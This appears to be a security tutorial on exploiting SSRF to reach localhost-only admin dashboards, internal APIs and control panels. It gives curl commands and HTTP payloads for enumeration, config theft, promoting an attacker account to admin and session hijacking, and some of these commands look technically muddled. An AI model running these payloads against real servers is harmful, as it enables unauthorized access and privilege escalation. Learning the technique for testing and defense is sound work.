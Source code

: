 ```yaml
---
title: Local Web Interface Exploitation Techniques
description: Learn how to exploit SSRF vulnerabilities to access and misuse local
  web interfaces securely hosted on target servers.
keywords:
- Local Web Interface
- SSRF exploitation
- localhost services
- admin dashboard
- internal APIs
- network security
- web exploitation
---
```


# Local Web Interface Exploitation

## Context

The goal of this article is to demonstrate how attackers can exploit Server-Side Request Forgery (SSRF) vulnerabilities to access and abuse local web interfaces, such as admin dashboards and local APIs, on the target server. This guide assumes the reader has an understanding of localhost networking, web service architecture, and SSRF techniques.

## Theory

### Local Web Interfaces and SSRF

Local web interfaces are HTTP services bound to the localhost or 127.0.0.1 addresses and are often intended to be inaccessible from external networks. SSRF vulnerabilities allow attackers to make requests from a vulnerable server to these otherwise hidden internal services, effectively proxying the attacker's requests through the server. Many admin dashboards and APIs that are only accessible via localhost lack significant authentication mechanisms, making them prime targets for SSRF exploitation.

### Attack Surface: Localhost-Only Services

Localhost-only services are those listening on localhost:PORT or 127.0.0.1:PORT. Common examples include admin dashboards, monitoring panels, and internal APIs. By crafting SSRF payloads, attackers can issue requests to these local web interfaces, bypassing network restrictions and exploiting the server's access to locally bound services.

### Abuse Scenarios for Local Web Interfaces

Attackers can access admin dashboards to change configuration settings or escalate privileges. They might also interact with local APIs to perform sensitive actions or exfiltrate data. Additionally, hijacking internal control panels can aid lateral movement within the network and persistence in the compromised environment.

## Practice

### Enumerate Accessible Local Web Interfaces via SSRF

1. Use the following command to send an SSRF payload that probes for an admin dashboard on `localhost:8080`:
   
   ```bash
   curl -X POST http://vulnerable-app/ssrf?url=http://127.0.0.1:8080/admin
   ```

2. Probe for a local API endpoint on port `5000` using:
   
   ```bash
   curl -X POST http://vulnerable-app/ssrf?url=http://localhost:5000/api/status
   ```

   These actions will help identify which local web interfaces are accessible using SSRF.

### Exploit Local Admin Dashboard via SSRF

1. Craft an SSRF payload to access the admin configuration page:

   ```http
   GET /admin/config HTTP/1.1
   Host: 127.0.0.1:8080
   ```

2. Retrieve the admin configuration by sending the payload:

   ```bash
   curl -X POST http://vulnerable-app/ssrf --data-urlencode "url=http://127.0.0.1:8080/admin/config"
   ```

   Successfully executing this will allow access to sensitive configurations or credentials from the local admin dashboard.

### Abuse Local API for Privilege Escalation

1. Prepare an SSRF payload to escalate privileges via a local API:

   ```http
   POST /api/user/promote HTTP/1.1
   Host: localhost:5000
   Content-Type: application/json

   {"user":"attacker","role":"admin"}
   ```

2. Send the SSRF request to promote the attacker account:

   ```bash
   curl -X POST http://vulnerable-app/ssrf -H "Content-Type: application/json" --data-urlencode "url=http://localhost:5000/api/user/promote" --data '{"user":"attacker","role":"admin"}'
   ```

   This action will enable the attacker to gain elevated privileges by abusing local API endpoints.

### Hijack Internal Control Panel via SSRF

1. Construct an SSRF payload to log into an internal control panel:

   ```http
   POST /panel/session HTTP/1.1
   Host: 127.0.0.1:9090
   Content-Type: application/x-www-form-urlencoded

   user=attacker&action=login
   ```

2. Execute the SSRF request to hijack the control panel session:

   ```bash
   curl -X POST http://vulnerable-app/ssrf --data-urlencode "url=http://127.0.0.1:9090/panel/session" --data 'user=attacker&action=login'
   ```

   By successfully performing this action, attackers can gain access to internal control panels, facilitating further exploitation.

## Tools

- **curl**
- **Burp Suite** 

These tools are essential for crafting and sending HTTP requests to exploit SSRF vulnerabilities effectively.